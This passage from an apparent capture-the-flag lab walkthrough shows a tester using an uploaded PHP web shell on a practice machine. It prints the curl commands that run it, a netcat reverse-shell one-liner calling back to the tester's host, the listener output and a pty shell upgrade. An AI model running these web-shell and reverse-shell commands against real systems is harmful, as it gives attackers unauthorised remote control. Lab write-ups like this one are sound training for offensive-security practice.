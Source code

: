 

### Test WebShell

Now that I have a url, I'll give it a spin:



    root@kali# curl http://10.10.10.121/support/uploads/tickets/30487f2924a0ae640ba2c0a54c9136f1.php?cmd=id
    uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)



Nice!

### Interactive Shell

Go with the old standby:



    root@kali# curl 'http://10.10.10.121/support/uploads/tickets/30487f2924a0ae640ba2c0a54c9136f1.php?cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.4+443+>/tmp/f'





    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.121.
    Ncat: Connection from 10.10.10.121:50042.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)



Upgrade shell with standard trick (I don't usually show this, but I
always do it):



    $ python -c 'import pty; pty.spawn("bash")'
    help@help:/var/www.md/support/uploads/tickets$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    root@kali# stty raw -echo
    root@kali# nc -lnvp 443    # i typed fg enter
                                                          reset
    reset: unknown terminal type unknown
    Terminal type? screen



Now I have a solid terminal with up arrow, tab completion, and ctrl-c:



    help@help:/var/www.md/support/uploads/tickets$ id
    uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
